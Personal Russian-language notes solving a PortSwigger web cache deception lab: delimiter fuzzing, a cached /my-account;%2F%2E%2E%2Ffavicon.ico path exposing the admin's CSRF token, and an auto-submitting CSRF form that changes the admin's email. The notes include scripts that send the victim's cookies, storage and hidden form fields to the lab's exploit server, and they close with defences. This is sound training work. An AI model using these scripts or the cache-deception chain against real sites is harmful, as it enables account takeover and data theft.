







++доп теория
## Использование правил кэша имен файлов

# Certain files such as ==robots.txt==, ==index.html==, and ==favicon.ico==
++ They're often cached

---
лаба
https://portswigger.net/web-security/web-cache-deception/lab-wcd-exploiting-exact-match-cache-rules

To solve the lab, change the email address for the user  **administrator**
мой ак wiener:peter

---

то есть нужно попасть в админ ак и сменить емайл

--------

листая историю действий на странице - я заметил, что есть страница мой аккаунт

которая возвращает  мне емайл жертвы + вот такой токен 
value="gXzi7sijvk8Dxz7gj73kscKxOemWyzBd">




и самео интересное - есть еще вот такая запрос смены емайла
и чтобы его сделать, нужно знать как раз таки этот токен value="gXzi7sijvk8Dxz7gj73kscKxOemWyzBd"




то есть можно попробовать заставить сохранить страницу GET /my-account в кеш и украсть потом  Your emai и  токен 
 name="csrf" value="gXzi7sijvk8Dxz7gj73kscKxOemWyzBd">
  которые возможно помогут мне 
  вот в этом запросе
  POST /my-account/change-email
  сменить емайл чужой

++ из вообще всех запросов на этом сайте (блог, страницы, аккаунты) только одна стркница 
возвращает кеш страницу
```http
HTTP/2 200 OK
Content-Type: image/x-icon
X-Frame-Options: SAMEORIGIN
Server: Apache-Coyote/1.1
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 15406


и это страница 
GET /favicon.ico HTTP/2
```




запускаю интрудер чтобы понять реакцию на разделители
нужно понять - какие сервер пропускает




результаты теста 

```
запрос GET /my-account%s ориг ответ = 3894 байта

GET /my-account/    ответ 200  3894 байта
GET /my-account;    ответ 200  3894 байта
GET /my-account?    ответ 200  3894 байта
```

тепрь можно пробовать заставить запрос отправиться в кеш!

--

### буду пробовать использовать 
вот этот запрос 
```http
GET /favicon.ico HTTP/2
Host: 0a9300dc048ebf1581389393009a0053.web-security-academy.net
Cookie: session=YL4lbQuJ7iTfomsS0nGAJvrUjztjT1UF
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Not(A:Brand";v="8", "Chromium";v="144"
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/144.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a9300dc048ebf1581389393009a0053.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Priority: u=1, i


-------

ответ на который который кешируется!

HTTP/2 200 OK
Content-Type: image/x-icon
X-Frame-Options: SAMEORIGIN
Server: Apache-Coyote/1.1
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 15406


```

пробую
```
GET /my-account?/favicon.ico  -404
GET /my-account?/../favicon.ico  200 без кеш 3894
GET /my-account?%2F%2E%2E%2Ffavicon.ico 200 без кеш 3894
время ответов не меняется
 
GET /my-account?%2F%2E%2E%2F%2E%2E%2Ffavicon.ico 200 без кеш 3894

в ответах часто вижу 
document.write(''); это видимо трекер аналитики

есть страница с картинкой 
GET /my-account?%2F%2E%2E%2Fimage/blog/posts/48.jpg 200 без кеш 3894
GET /my-account?%2F%2E%2E%2F%2E%2E%2Fimage/blog/posts/48.jpg
200 без кеш 3894

заметил что запросы типа 
GET  /my-account     200 без кеш 3894
GET  ?my-account     200 без кеш 3894
GET  my-account      200 без кеш 3894

------
GET /my-account?%2F%2E%2E%2Ffavicon.ico?my-account 200 без кеш 3894


```



робовал попасть через иконку, через интрудер прогнал разные варианты


GET /favicon.ico   ориг   15580  байт

GET /favicon.ico;%2F%2E%2E%2F%2E%2E%2Fmy-account HTTP/1.1 15530 б

GET /favicon.ico?%2F%2E%2E%2F%2E%2E%2Fmy-account HTTP/2 15579

GET /favicon.ico?%2F%2E%2E%2F%2E%2E%2Fmy-account HTTP/1.1 15579

----
проверю, может заголовки просто не отображаются , но стр на самом деле сохраняется в кеш?
GET /my-account?%2F%2E%2E%2Ffavicon.ico HTTP/2
сделал эксплойт - отправил - попробовал получить кеш по тойже ссылке - не получилось

-----

я только что понял, что я протестил все варианты с ? но не тестил варианты с ; хотя они оба пропукаются сервером!
# пробую ; после проб ?
```http

GET /my-account;favicon.ico HTTP/2  200 3894 (стандарт)

GET /my-account;%2F%2E%2E%2Ffavicon.ico - АЛЛИУЛУЯ! 3944 байта! + заголовки кеша 
Cache-Control: max-age=30
Age: 0
X-Cache: miss

+ запрос возвращает  Your email и токен name="csrf" value="gXzi7sijvk8Dxz7gj73kscKxOemWyzBd">
  
  
```

теперь нужно отправить эксплойт жертве!

```http
сформировал ссылку 
https://0a9300dc048ebf1581389393009a0053.web-security-academy.net/my-account;%2F%2E%2E%2Ffavicon.ico

из запроса того самого что данные аккаунта возвращает

GET /my-account;%2F%2E%2E%2Ffavicon.ico HTTP/2
Host: 0a9300dc048ebf1581389393009a0053.web-security-academy.net
Cookie: session=YL4lbQuJ7iTfomsS0nGAJvrUjztjT1UF
Sec-Ch-Ua: "Not(A:Brand";v="8", "Chromium";v="144"
Sec-Ch-Ua-Mobile: ?0
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9300dc048ebf1581389393009a0053.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

изи скрипт с моей ссылкой - оправляю жертве!
```js

<script>document.location="https://0a9300dc048ebf1581389393009a0053.web-security-academy.net/my-account;%2F%2E%2E%2Ffavicon.ico"</script>
```

после перехода мной по ссылке - меня тут же выбросило из аккаунта, видимо потому что куки не совпадали ..
но я переххватил запрос и теперь у меня есть 
ник
# Your username is: administrator
и токен
# value="7Ie4cMiY2dr6j1kAaFPBiSFG93gYyvn9">




---

тперь нужно изменить запрос который меняет емайл
```http
POST /my-account/change-email HTTP/2
Host: 0a9300dc048ebf1581389393009a0053.web-security-academy.net
Cookie: session=YL4lbQuJ7iTfomsS0nGAJvrUjztjT1UF
...
...
...
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9300dc048ebf1581389393009a0053.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=332_myem%40bk.ru&csrf=gXzi7sijvk8Dxz7gj73kscKxOemWyzBd
```

подставлю в него свой данные!
сделал запрос - ответ - токен не валидный!

3 варианта:
1) токен истек
2) токен сменился после того как неудачная попытка входа была
3) требуются куки???

---

попрбую тоже самое но быстро и перехватить ответ

----
не получается, я только получаю токен сессии и имя админа
но сменить не получатся, пишет - что токен невалиден , хотя я действовал очень быстро, всего секунд 7 проходит
а токен видимо живет очень долго сам по себе, так как он не меняется 




видимо токен привязан к сессии 
```http
Cookie: session=YL4lbQuJ7iTfomsS0nGAJvrUjztjT1UF
```
то есть нужно стащить и сессиию тоже, нужно модернизировать мой скритп6 так как в ответе есть только токен csrf но токена сессии нет

---

дипсик подсказал что вот так можно модернизировать мой скрипт
чтобы он украл и куки с браузера жертвы

```js

<script>
// Сначала крадём сессию
var img = new Image();
img.src = 'https://exploit-0a010014045cbf368131921501fe009d.exploit-server.net/exploit?session=' + encodeURIComponent(document.cookie);

// Потом выполняем WCD атаку
setTimeout(function() {
    document.location = 'https://0a9300dc048ebf1581389393009a0053.web-security-academy.net/my-account;%2F%2E%2E%2Ffavicon.ico';
}, 50);
</script>


данный скрипт должен был украсть куки 
но не смог 
10.0.4.191      2026-02-11 08:59:31 +0000 "GET /exploit?session= HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"

сессия пустая...

попробую сперва 
токен получить 

<script>document.location="https://0a9300dc048ebf1581389393009a0053.web-security-academy.net/my-account;%2F%2E%2E%2Ffavicon.ico"</script>

потом скрипт с кражей кук
но не вышло, сессия не приходит!


```

делаю скрипт который украдет вообще все что только можно

```js
<script>
// 1. Собираем ВСЁ что можно украсть
var stolenData = {
    // Куки
    cookies: document.cookie,
    
    // LocalStorage
    localStorage: JSON.stringify(localStorage),
    
    // SessionStorage
    sessionStorage: JSON.stringify(sessionStorage),
    
    // URL текущей страницы
    url: window.location.href,
    
    // User-Agent
    userAgent: navigator.userAgent,
    
    // Платформа
    platform: navigator.platform,
    
    // Язык
    language: navigator.language,
    
    // Источник (откуда пришёл)
    referrer: document.referrer,
    
    // Время
    timestamp: new Date().toISOString(),
    
    // Все формы на странице
    forms: Array.from(document.forms).map((f, i) => ({
        id: f.id,
        html: f.outerHTML
    })),
    
    // Все скрытые поля
    hiddenInputs: Array.from(document.querySelectorAll('input[type="hidden"]')).map(input => ({
        name: input.name,
        value: input.value
    }))
};

// 2. Отправляем ВСЁ на cвой сервер
var dataString = encodeURIComponent(JSON.stringify(stolenData, null, 2));
var img = new Image();
img.src = 'https://exploit-0a010014045cbf368131921501fe009d.exploit-server.net/exploit?data=' + dataString;

// 3. Дополнительно через fetch (если разрешено)
fetch('https://exploit-0a010014045cbf368131921501fe009d.exploit-server.net/log', {
    method: 'POST',
    mode: 'no-cors',
    headers: {'Content-Type': 'application/x-www-form-urlencoded'},
    body: 'data=' + dataString
}).catch(() => {}); // Игнорируем ошибки

// 4. Потом выполняем WCD атаку
setTimeout(function() {
    document.location = 'https://0a9300dc048ebf1581389393009a0053.web-security-academy.net/my-account;%2F%2E%2E%2Ffavicon.ico';
}, 100);
</script>
```


вот ответ логи 
```
10.0.4.191      2026-02-11 09:06:28 +0000 "GET /exploit/ HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.4.191      2026-02-11 09:06:28 +0000 "POST /log HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.4.191      2026-02-11 09:06:28 +0000 "GET /exploit?data=%7B%0A%20%20%22cookies%22%3A%20%22%22%2C%0A%20%20%22localStorage%22%3A%20%22%7B%7D%22%2C%0A%20%20%22sessionStorage%22%3A%20%22%7B%7D%22%2C%0A%20%20%22url%22%3A%20%22https%3A%2F%2Fexploit-0a010014045cbf368131921501fe009d.exploit-server.net%2Fexploit%2F%22%2C%0A%20%20%22userAgent%22%3A%20%22Mozilla%2F5.0%20(Victim)%20AppleWebKit%2F537.36%20(KHTML%2C%20like%20Gecko)%20Chrome%2F125.0.0.0%20Safari%2F537.36%22%2C%0A%20%20%22platform%22%3A%20%22Linux%20x86_64%22%2C%0A%20%20%22language%22%3A%20%22en-US%22%2C%0A%20%20%22referrer%22%3A%20%22%22%2C%0A%20%20%22timestamp%22%3A%20%222026-02-11T09%3A06%3A28.825Z%22%2C%0A%20%20%22forms%22%3A%20%5B%5D%2C%0A%20%20%22hiddenInputs%22%3A%20%5B%5D%0A%7D HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"

------- тоже самое ------

{
  "cookies": "",
  "localStorage": "{}",
  "sessionStorage": "{}",
  "url": "https://exploit-0a010014045cbf368131921501fe009d.exploit-server.net/exploit/",
  "userAgent": "Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36",
  "platform": "Linux x86_64",
  "language": "en-US",
  "referrer": "",
  "timestamp": "2026-02-11T09:06:28.825Z",
  "forms": [],
  "hiddenInputs": []
}

короче нет кук!!!!!

```

-----
 я кажется понял!!!

у меня есть запрос в который я подставил токен админа
``` http
POST /my-account/change-email HTTP/2
Host: 0a9300dc048ebf1581389393009a0053.web-security-academy.net
Cookie: session=YL4lbQuJ7iTfomsS0nGAJvrUjztjT1UF
Content-Length: 56
Cache-Control: max-age=0
Sec-Ch-Ua: "Not(A:Brand";v="8", "Chromium";v="144"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a9300dc048ebf1581389393009a0053.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/144.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9300dc048ebf1581389393009a0053.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=chen%40bk.ru&csrf=7Ie4cMiY2dr6j1kAaFPBiSFG93gYyvn9
```

можно тупо сформировать ссылку с этого запроса

https://0a9300dc048ebf1581389393009a0053.web-security-academy.net/my-account/change-email

и отправить ее жертве, а когда жертва перейдет по ней, уже со своими куками - тогда она сама сменит еймайл на то который я тут установил! все проще, чем я думал!
но нужно проверить!

я это сделал, и вродебы как поменял админу почту на 
chen%40bk.ru

но как это использовать теперь так как вход происходит через ник и пароль

у меня сейчас есть 

ник administrator
почта его новая chen22%40bk.ru
его токен scrf

и что делать тогда дальше с этим? в чем смысл?

я заметил ошибку, 
мой скрипт 
```http

<script>document.location="https://0a9300dc048ebf1581389393009a0053.web-security-academy.net/my-account/change-email"</script>
```
тупо переводит на страницу my-account/change-email!
без параметров

нужно добавить праметры нужно сделать POST запрос а не гет!!!!!!!!!!!!!!!!!!!!!!!!!!!! 
**Автоматическая POST-форма**
```html

<html>
<body>
  <form id="hack12345" method="POST" action="https://0a9300dc048ebf1581389393009a0053.web-security-academy.net/my-account/change-email">
    <input type="email" name="email" value="chen22%40bk.ru">
    <input type="hidden" name="csrf" value="7Ie4cMiY2dr6j1kAaFPBiSFG93gYyvn9">
  </form>
  <script>
    document.getElementById('hackForm').submit();
  </script>
</body>
</html>


```

# сработало! лаба решена!

---------

# итоги и выводы:

### 🔗 **Что сработало и почему:**

1. **Найдено расхождение**: Сервер обрабатывает `;` как разделитель пути (игнорирует всё после него), а кэш — нет.
   
2. **Эксплуатация exact-match rule**: Кэш кэширует /favicon.ico. Путь /my-account;%2F%2E%2E%2Ffavicon.ico:
   
   - **Сервер** видит: /my-account  → возвращает личный кабинет с CSRF-токеном
   
   - **Кэш** видит: /favicon.ico → сохраняет ответ (правило для иконки)

  
1. **CSRF без кражи сессии**: Не нужно было красть куки. 
    CSRF-токен, полученный из кэша, **уже привязан к сессии администратора**.
   
2. **Автоматическая POST-форма**:  document.location делает GET, а нужно POST с параметрами. Форма с autosubmit  выполнила действие от имени администратора.
   

### 💡 **Ключевые выводы:**

- **Web Cache Deception** = обман кэша через расхождение в парсинге путей
    
- **CSRF + WCD** = мощная комбинация: кража токена → выполнение действий
    
- **Не всегда нужны куки**: CSRF-токен работает в контексте сессии жертвы
    
- **Правило exact-match**: `robots.txt`, `favicon.ico`, `index.html` часто кэшируются
    

### ⚠️ **Ошибки, которые замедлили решение:**

1. Сперва тестировал ? -и про  ; вспомнил гораздо позже (оба  как разделители пути, но только ; сработал)
    
2. Пытался красть куки (не нужно — жертва не авторизована на exploit-сервере) кук -нет, но можно было отправить этот запрос прямо из браузера жертвы! авто запросом и куки все нужные сами подставились бы!
    
3. Использовал document.location для POST-запроса (нужна форма)
    

-----

# ### **Как предотвратить Web Cache Deception (WCD)**

Уязвимость сработала, потому что система нарушила базовый принцип: **"Если ответ зависит от авторизации пользователя (сессии, кук), его нельзя кэшировать для общего доступа (`public`)"**.
---


# **Что делать** чтобы избежать таких уяз ?
# 1=
бекенд
сервер должен четко валидировать директории. и если путь не соответствует разрешенному - тогда **404 Not Found**
не игнорировать окончание путей и расширения
# 2=
бекенд
**Жёстко контролировать заголовки `Cache-Control`**
всегда отправлять:  Cache-Control: private, no-store, max-age=0`
Явно запрещает любым промежуточным кэшам (CDN) сохранять этот ответ!
# 3= 
со стороны **Администратор (CDN/Прокси)**
Запретить переопределять `private` и `no-store`.
Четко подчиняться  Cache-Control
# 4= 
со стороны **Администратор (CDN/Прокси)**
**Настроить кэширование по Content-Type ответа, а не по расширению в URL.**
Устраняет слепое доверие к пути в URL. Если сервер ошибочно отдал `text/html` по пути `.css`, такой ответ не будет закэширован
# 5= 
со стороны **Администратор (CDN/Прокси)**
**Использовать заголовок `Vary`.**Принудительно добавлять `Vary: Cookie, Authorization`для всех ответов от защищённых областей.
Гарантирует, что для каждого уникального значения Cookie будет создана отдельная кэш-запись.
 **это несоответствие ключа кэша**: Кэш  формировал ключ на основе **полного URL**(включая `;.js`), но **не учитывал заголовки авторизации** (Cookie). Это привело к тому, что ответ пользователя A стал доступен пользователю B.

-----


